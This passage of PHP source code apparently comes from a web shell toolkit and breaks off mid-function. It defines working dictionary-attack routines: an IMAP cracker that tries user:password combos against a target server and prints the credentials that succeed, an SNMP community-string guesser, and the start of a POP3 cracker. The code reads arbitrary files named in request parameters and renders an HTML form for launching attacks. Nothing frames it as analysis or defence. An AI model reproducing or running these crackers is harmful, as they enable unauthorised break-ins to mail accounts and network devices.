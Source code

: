 }
function imapcrackeR(){
global $t,$et,$errorbox,$crack;
if (!empty($_REQUEST['target']) && !empty($_REQUEST['dictionary'])){
$target=$_REQUEST['target'];
$type=$_REQUEST['combo'];
$user=(!empty($_REQUEST['user']))?$_REQUEST['user']:"";
$dictionary=fopen($_REQUEST['dictionary'],'r');
if ($dictionary){
echo "&lt;font color=blue&gt;Cracking ".htmlspecialchars($target)."...&lt;br&gt;";flusheR();
while(!feof($dictionary)){
if($type){
$combo=trim(fgets($dictionary)," \n\r");
$user=substr($combo,0,strpos($combo,':'));
$pass=substr($combo,strpos($combo,':')+1);
}else{
$pass=trim(fgets($dictionary)," \n\r");
}
$imap=imaplogiN($target,$user,$pass);
if($imap==-1){echo "$errorbox Can not connect to server.$et";break;}else{
if ($imap){echo "U: $user P: $pass&lt;br&gt;";if(!$type)break;}}
flusheR();
}
echo "&lt;br&gt;Done&lt;/font&gt;";
fclose($dictionary);
}
else{
echo "$errorbox Can not open dictionary.$et";
}
}else echo "&lt;center&gt;${t}IMAP cracker:$crack";
}
function snmpcrackeR(){
global $t,$et,$errorbox,$crack,$hcwd;
if (!empty($_REQUEST['target']) && !empty($_REQUEST['dictionary'])){
$target=$_REQUEST['target'];
$dictionary=fopen($_REQUEST['dictionary'],'r');
if ($dictionary){
echo "&lt;font color=blue&gt;Cracking ".htmlspecialchars($target)."...&lt;br&gt;";flusheR();
while(!feof($dictionary)){
$com=trim(fgets($dictionary)," \n\r");
$res=snmpchecK($target,$com,2);
if($res)echo "$com&lt;br&gt;";
flusheR();
}
echo "&lt;br&gt;Done&lt;/font&gt;";
fclose($dictionary);
}
else{
echo "$errorbox Can not open dictionary.$et";
}
}else echo "&lt;center&gt;${t}SNMP cracker:&lt;/td&gt;&lt;td bgcolor=\"#333333\"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=\"POST\"&gt;$hcwd&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;Dictionary:&lt;/td&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;input type=text name=dictionary size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#808080\"&gt;Server:&lt;/td&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=text name=target size=35&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"20%\" bgcolor=\"#666666\"&gt;&lt;/td&gt;&lt;td bgcolor=\"#666666\" align=right&gt;&lt;input class=buttons type=submit value=Start&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;";
}
function pop3crackeR(){
global $t,$et,$errorbox,$crack;
if (!empty($_REQUEST['target']) && !empty($_REQUEST['dictionary'])){
$target=$_REQUEST['target'];
$type=$_REQUEST['combo'];
